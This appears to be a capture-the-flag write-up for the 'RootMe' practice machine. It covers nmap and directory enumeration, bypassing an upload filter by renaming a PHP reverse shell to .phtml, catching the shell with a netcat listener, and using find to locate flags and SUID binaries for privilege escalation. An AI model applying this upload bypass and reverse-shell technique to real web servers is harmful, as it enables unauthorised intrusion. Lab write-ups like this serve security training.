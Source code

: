 # RootMe

IP - 10.10.88.7

## Scanning and Enumeration
nmap scan:
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
```
dirsearch:
```
[22:18:58] 403 -   275B - /.php
[22:19:21] 301 -   306B - /css  ->  http://10.10.88.7/css/
[22:19:28] 200 -   616B - /index.php
[22:19:28] 200 -   616B - /index.php/login/
[22:19:30] 200 -   956B - /js/
[22:19:30] 301 -   305B - /js  ->  http://10.10.88.7/js/
[22:19:38] 301 -   308B - /panel  ->  http://10.10.88.7/panel/
[22:19:38] 200 -   732B - /panel/
[22:19:44] 403 -   275B - /server-status
[22:19:44] 403 -   275B - /server-status/
[22:19:50] 301 -   310B - /uploads  ->  http://10.10.88.7/uploads/
[22:19:50] 200 -   741B - /uploads/
```

## Exploit
- http://10.10.88.7/panel is vulnerable to file upload.
- http://10.10.88.7/uploads allows you to see the uploaded files.
- Tested website uploads and found out it allows .txt to be uploaded but .php gets denied.


## Reverse Shell
- In terminal navigate to ``` /usr/share/webshells/php/php-reverse-shell.php ```
- ``` cp php-reverse-shell.php ~/Documents/php_reverse_shell.phtml ``` (copy executable file to "Docuemnts" directory and change the file name to .phtml file).


*The file is renamed to .phtml to bypass upload restrictions on .php files, allowing us to upload and execute the PHP reverse shell.
![image](https://github.com/user-attachments/assets/b0e1c037-170e-4015-8f3b-68fd40c1035e)

- Upload the executable file in the website and then go to http://10.10.88.7/uploads.
- In the terminal start netcat listener - ``` nc -nlvp 4444 ``` > go back to the website and open the executable file to achieve the reverse shell.

## Post-Exploit
- To find user.txt - ``` find / -iname “user.txt” 2>/dev/null ```
![image](https://github.com/user-attachments/assets/88ea8174-23d7-4b2c-8e80-95ead92d3539)


# Priviledge Escalation
Found interesting file with SUID permissions that will allow priviledge escalation by typing - ``` find / -user root -perm -4000 2>/dev/null ```

https://docs.oracle.com/cd/E19683-01/816-4883/6mb2joatb/index.html

![image](https://github.com/user-attachments/assets/40b3717f-6816-4dac-8153-f76aa1866927)


https://hacking-capture.github.io/root-me/
Finding user with different priviledges -``` find / -user root -perm -4000 2>/dev/null ```
